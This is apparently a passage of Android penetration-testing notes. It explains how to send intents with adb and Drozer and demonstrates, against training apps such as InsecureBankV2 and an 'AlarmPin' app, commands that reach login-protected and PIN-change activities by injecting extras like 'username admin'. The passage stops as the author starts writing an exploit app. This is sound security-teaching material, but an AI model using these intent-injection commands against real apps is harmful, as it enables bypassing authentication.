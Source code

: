 ```java
  
    // Display the data  
    TextView textView = findViewById(R.id.textView);  
    String userInfo = String.format("Name: %s\nAge: %d\nEmail: %s", name, age, email);  
    textView.setText(userInfo);  
}
```


You can send explicit or implicit intents using the `am` (Activity Manager) command:

```bash
adb shell am start -n com.package.name/.ActivityName -a android.intent.action.VIEW -d "uri" --es "extra_key" "extra_value"
```

**Other values**
```txt
--es => string
--ei => integer
--ez => boolean
--ef => float
```

For passing multiple values using intent:
```bash
--es "val1" "val" --es "val2" "val"
```

#### Send Intent to activity using Drozer

```bash
# dz> run app.activity.start --component [...] --extra TYPE KEY VALUE
dz> run app.activity.start --component com.android.insecurebankv2 com.android.insecurebankv2.PostLogin --extra string uname admin
```



Let's exploit **AlarmPin App**

Based on the code, the `ChangePin` activity has different behaviors depending on whether it receives a "username" extra in the Intent.


```bash
# Category of intent is DEFAULT. No need to mention it
# adb shell am start-activity -n com.apphacking.alarmpin/.ChangePin -c android.intent.category.DEFAULT --es username admin
adb shell am start -n com.apphacking.alarmpin/.ChangePin --es username admin

```

I was able to Open `.ChangePin` Activity. Earlier it was getting opened but the EditText view was disabled because if `username` field in recieved Intent is null then the EditText should be disabled. We can send any username except NULL.

Let's develop an app which does this:
